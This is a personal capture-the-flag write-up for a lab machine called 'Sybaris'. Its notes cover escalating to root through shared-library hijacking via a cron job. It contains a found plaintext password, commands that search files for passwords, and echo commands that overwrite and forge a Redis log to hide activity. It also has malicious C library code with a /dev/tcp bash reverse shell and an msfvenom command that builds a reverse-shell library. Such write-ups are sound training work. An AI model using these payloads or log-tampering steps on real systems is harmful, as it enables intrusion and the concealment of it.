

# Sybaris Helped Through

Name: Sybaris
Date:  
Difficulty: Medium
Goals:  
TJNULL box a day till I am iron out every tiny imperfection in my thinking
Learnt:
- Recent box was similar issue- its not rabbitholing CTFs its just OFFSEC being these are actually pieces 
Beyond Root:

- [[Sybaris-Notes.md]]
- [[Sybaris-CMD-by-CMDs.md]]

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.

	
## Exploit

## Foothold

## Privilege Escalation

```
find . -type f -name "*.*onf*" 2>/dev/null | xargs grep -ie 'passw'
```
wpawifilessconf.png

iniparse.png

Interesting files of a User
```
find / -user $USER -ls 2>/dev/null | grep -v '/run/\|/proc/\|/sys/'
```
pabloisfilepoor.png


Log clean Cleanup
```bash
echo "" > /var/log/redis/redis-server.log 
echo "1937:C 02 Nov 2023 16:35:22.932 # Redis version=5.0.9, bits=64, commit=00000000, modified=0, pid=1937, just started" > /var/log/redis/redis-server.log
echo "1937:C 02 Nov 2023 16:35:22.932 # Configuration loaded" | tee -a /var/log/redis/redis-server.log
```

wtfissuexec.png

python2asroot.png

pablospassword.png

```
admin : PostureAlienateArson345
```

ssh.png

the config.ini contains the plugin and implies use
foundthepluginthatbugged.png

pablo has no sudo privileges
pablonosudo.png

weirdmysqlcnf.png

weirdport25onlocalhost.png

libdevdir.png

Peaking at the Writeup as prompt for time. the cronjob is the way forward.
[LD_LIBARARY_PATH article](https://www.hpc.dtu.dk/?page_id=1180)  

*`LD_LIBRARY_PATH` tells the dynamic link loader (ld. so – this little program that starts all your applications) where to search for the dynamic shared libraries an application was linked against.*

This basically the Linux equivalent of DLL Hijacking. Sad tiny red fedora hats m'LD all round when you can replicate a Windows Vulnerability on Linux. 
notarealmanpage.png


This is [baeldung - show-shared-libraries-executables](https://www.baeldung.com/linux/show-shared-libraries-executables)
ldenum.png


```bash
# ldd
ldd $FILE
# objdump
objdump -p $FILE | grep 'NEEDED'
# readelf
readelf --dynamic $FILE | grep NEEDED

# find the pid and checking /proc maps file
pgrep $target
cat /proc/$PID/maps 
awk '$NF!~/\.so/{next} {$0=$NF} !a[$0]++' /proc/$PID/maps 
```

noutils.png

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/ld.so.conf-example
```
//gcc -shared -o libcustom.so -fPIC libcustom.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void vuln_func(){
    setuid(0);
    setgid(0);
    printf("I'm the bad library\n");
    system("/bin/bash -i >& /dev/tcp/192.168.45.225/6379 0>&1",NULL,NULL);
}
```

We wont get the shell - my c reading is still on point and brain is actually working
https://man7.org/linux/man-pages/man3/system.3.html
```
//gcc -shared -o utils.so -fPIC utils.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void vuln_func(){
    setuid(0);
    setgid(0);
    printf("I'm the bad library\n");
    system("/bin/bash -i >& /dev/tcp/192.168.45.225/6379 0>&1",NULL,NULL);
}
```

sadness.png

I also changed it to `sh` for the reverse shell above, I tried `/dev/shm/shell.sh` that pointed just, but that filed. 

Having almost not used `msfvenom` since I realised that it is signatured into the ground on windows systems and then you need to transfer the binary - AND there is the its another OFFSEC machine where use the PIECES they arent all rabbit holes 
```
msfvenom -p linux/x64/shell_reverse_tcp -f elf-so -o utils.so LHOST=kali LPORT=6379
```

root.png
## Post-Root-Reflection  

.so libraries the machine has reinforced my need to think about how to correctly contextualise CTFy pieces. 

## Beyond Root

Understanding `make` - why does ` system("/bin/bash -i >& /dev/tcp/192.168.45.225/6379 0>&1",NULL,NULL);` not work
```
make -C ./src
```